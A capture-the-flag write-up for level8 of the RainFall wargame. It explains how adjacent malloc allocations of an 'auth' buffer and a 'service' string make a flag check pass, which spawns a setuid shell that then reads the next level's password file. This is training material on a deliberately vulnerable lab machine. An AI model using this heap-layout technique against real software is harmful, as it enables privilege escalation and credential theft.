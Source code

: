 # level8

## Header

```bash
ssh level8@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level8/level8
```

<hr>

## Solution

From the [disassembled code](./source.s) we can see, that `system("/bin/sh")` will be executed if `auth + 32` will be not equal to 0.

But `auth` variable size is only 4 bytes:
```c
if (!ft_strncmp(buf, "auth ", 5)) {
    auth = malloc(4);
    ...
```

A knowledge that `malloc` result lay out in the memory consistently will be useful here. <br>
First we'll allocate `auth` using direct `malloc` call and then allocate `service` using `strdup` that uses `malloc`. <br>
That will produce two consistent memory block, and `auth + 32` will point to some byte in the `service` string.

```bash
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth merrell
0x804a008, (nil) 
service so basically we just need to allocate a string that will be long enough
0x804a008, 0x804a018 
login
$
```

And getting the flag in the shell:
```bash
$ pwd
/home/user/level8
$ cd ../level9
$ ls -la
total 17
dr-xr-x---+ 1 level9 level9   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level9 level9  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level9 level9 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 bonus0 users  6720 Mar  6  2016 level9
-rw-r--r--+ 1 level9 level9   65 Sep 23  2015 .pass
-rw-r--r--  1 level9 level9  675 Apr  3  2012 .profile
$ cat .pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

## References
- [seta and setb](https://stackoverflow.com/questions/44630262/what-do-the-assembly-instructions-seta-and-setb-do-after-repz-cmpsb)
- [asm instructions](https://faydoc.tripod.com/cpu/cmps.htm)